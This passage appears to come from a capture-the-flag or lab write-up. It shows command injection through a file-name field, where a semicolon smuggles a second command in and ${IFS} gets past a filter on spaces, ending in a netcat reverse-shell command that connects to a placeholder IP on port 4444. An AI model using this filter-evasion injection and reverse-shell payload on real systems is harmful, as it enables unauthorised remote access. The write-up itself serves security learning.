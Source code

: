 Which means that `+` may not be properly accepted, it seems like the spaces are filtered:

```
file.sh;+ 

<pre>cannot access &#39;file.sh;&#39;: No such file or directory</pre>
```

Indeed, spaces are being filtered, we can use`${IFS}`, `${IFS}` stands for Internal Field Separator, a special environment variable in Unix-like
shells that defines what characters are used to split fields, many filters look for literal spaces but tend to miss environment variables like this one, let's try to check if it works first:

![image-14.png](../../IMAGES/image-14.png)

It works, no error message appears, we can restructure our shell command now, after testing `bash` is also filtered too, we need another reverse shell, let's try netcat one:

```bash
nc${IFS}IP${IFS}4444${IFS}-e${IFS}/bin/sh
```


![image-15.png](../../IMAGES/image-15.png)
